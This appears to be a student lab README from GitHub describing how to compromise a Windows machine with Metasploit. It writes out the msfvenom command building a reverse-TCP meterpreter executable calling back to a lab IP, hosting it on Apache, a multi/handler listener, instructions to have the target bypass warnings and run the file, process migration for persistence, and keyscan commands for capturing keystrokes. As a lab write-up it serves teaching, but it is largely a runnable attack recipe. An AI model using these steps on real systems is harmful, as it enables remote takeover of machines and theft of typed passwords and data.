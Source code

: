 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig

### EXECUTION STEPS AND ITS OUTPUT:
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/ed78fb61-06bf-4ff8-bbeb-be96ed068caa)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/dddb532f-d29f-42fa-9b3f-f1318cc06670)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/1d1a832b-4562-4788-8160-22c4414c2128)

Start apache server sudo systemctl apache2 start
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/b7d467f5-85e7-4147-8016-08f5ffb6ed9a)

Check the status of apache2
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/a2306df0-d5fc-425c-8aaa-5763ec6ce70c)
Invoke msfconsole

### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/15659ef1-0aa4-46be-b27c-9aa33ffc0adc)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/a91005c0-cf23-4116-b617-0c23020f3f32)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/ae723933-be47-417f-91e4-f78e608c616f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/08c920d6-471d-42db-9b3b-49992463d9d9)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/c3c5264d-c81f-43cc-8947-41c22c659bb0)

keyscan_dump Shows the keystrokes captured so far
![image](https://github.com/SivaramakrishnanBaskar/Compromising-windows-using-Metasploit/assets/119476322/86f2a732-7ba0-4f83-a604-987e07667322)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
